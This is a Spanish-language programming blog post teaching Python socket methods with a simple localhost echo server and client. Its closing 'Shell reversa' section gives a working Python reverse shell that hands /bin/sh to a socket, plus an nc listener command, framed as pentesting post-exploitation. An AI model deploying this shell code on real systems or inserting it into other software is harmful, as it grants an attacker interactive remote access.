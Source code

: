 ```yaml
---
title: "Aplicaciones Clientes Servidor usando sockets en Python"
date: 2022-05-10T23:04:40-05:00
draft: false

description: "Se muestra algunos ejemplos de cliente-servidor codificados en Python"
hideToc: false #(false: se muestra el indice a la derecha ... true no se muestra)
enableToc: true #(Se quita o no la opci贸n de derecha que permite ocultar o no)
enableTocContent: false  #(Indice pero vertical)
author: Brayan Rodriguez #(Autor)
authorEmoji: 👺

#(Etiquetas de referencia al contenido)
tags:
- Python
- Sockets
- Cliente-Servidor

categories:
- Programación
- Aplicacion

image: images/02_ClienteServidor/Cliente-Servidor.png
---
```


Aplicaciones cliente-servidor usando sockets 

## Algunos métodos en Python para enviar y recibir datos

***socket.recv(buffer_long)***: Este método recibe datos del socket. El argumento del método indica la cantidad máxima de datos que puede recibir.

***socket.recvfrom(buffer_long)***: Este método recibe datos y la dirección del remitente.

***socket.recv_into(buffer)***: Este método recibe datos en un buffer.

***socket.recvfrom_into(buffer)***: Este método recibe datos en un buffer.

***socket.send(bytes)***: Este método envía datos de bytes al destino especificado.

***socket.sendto(datos, dirección)***: Este método envía datos a una dirección determinada.

***socket.sendall(datos)***: Este método envía todos los datos en el búfer.

***socket.close()***: Este método libera la memoria y finaliza la conexión

## Algunos métodos para el socket en el ***servidor***

socket.bind(dirección): este método nos permite conectar la dirección con el socket, en necesario que previamente el socket se encuentre abierto antes de establecer la conexión con la dirección.

socket.listen(numero_conexiones): este método acepta como parámetro el número máximo de conexiones de los clientes TCP.

socket.accept(): este método nos permite aceptar conexiones del cliente. Este método devuelve dos valores: client_socket y la dirección del cliente. client_socket es un nuevo objeto de socket utilizado para enviar y recibir datos. Antes de usar este método, debe llamar a los métodos socket.bind(dirección) y socket.listen(numero_conexiones).

## Algunos métodos para el socket en el ***cliente***

socket.connect(dirección_ip): este método conecta al cliente a la dirección IP del servidor.

## Algunos métodos para capturar excepciones 

except socket.timeout: este bloque captura excepciones relacionadas con el vencimiento de los tiempos de espera.

except socket.gaierror: este bloque detecta errores durante la búsqueda de información sobre direcciones IP, por ejemplo, cuando usamos los métodos getaddrinfo() y getnameinfo().

except socket.error: este bloque detecta errores genéricos de entrada y salida y comunicación. Este es un bloque genérico donde puede detectar cualquier tipo de excepción.

## Implementando un servidor 

{{< highlight Python >}}

import socket
s = socket.socket()
s.bind(("localhost", 9999))
s.listen(1)
print("servidor escuchando en el puerto 9999...")
sc, addr = s.accept()

while True:
    recibido = sc.recv(1024)
    print("Recibido del cliente el mensaje de: ", recibido.decode('utf-8'))
    mensaje_servidor = "Servidor recibió el mensaje de: " + recibido.decode('utf-8')
    sc.send(bytes(mensaje_servidor.encode('utf-8')))
    if recibido == bytes("terminar",'utf-8'):
        break
print("cerrando el socket servidor")
sc.close()
s.close()

{{< /highlight >}} 

## Implementando un cliente

{{< highlight Python >}}

import socket
s = socket.socket()
s.connect(("localhost", 9999))
while True:
    mensaje = input("> ") #Console escibe
    s.send(bytes(mensaje.encode('utf-8')))
    data_server = s.recv(1024)
    print(data_server.decode('utf-8'))
    if mensaje == "terminar":
        break
print("cerrando socket cliente")
s.close()

{{< /highlight >}} 

![image info](/images/02_ClienteServidor/Test-Cliente-Servidor.jpg)

### Shell reversa

Una Shell inversa se trata de acción mediante la cual un usuario consigue acceder a la shell de un servidor externo. Por ejemplo, si estás trabajando en una fase de pentesting relacionada  con post-explotación y te gustaría crear un script que se invoque en ciertos escenarios que automáticamente hará obtener un shell para acceder al sistema de ficheros de otra máquina, podríamos construir nuestra propia shell inversa en Python.

{{< highlight Bash >}}

nc -lvnp 45679

{{< /highlight >}} 

{{< highlight Python >}}

import socket
import subprocess
import os
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect(("127.0.0.1", 45679))
os.dup2(sock.fileno(),0)
os.dup2(sock.fileno(),1)
os.dup2(sock.fileno(),2)
shell_remote = subprocess.call(["/bin/sh", "-i"])
proc = subprocess.call(["/bin/ls", "-i"])

{{< /highlight >}} 

![image info](/images/02_ClienteServidor/reverse_shell.jpg)
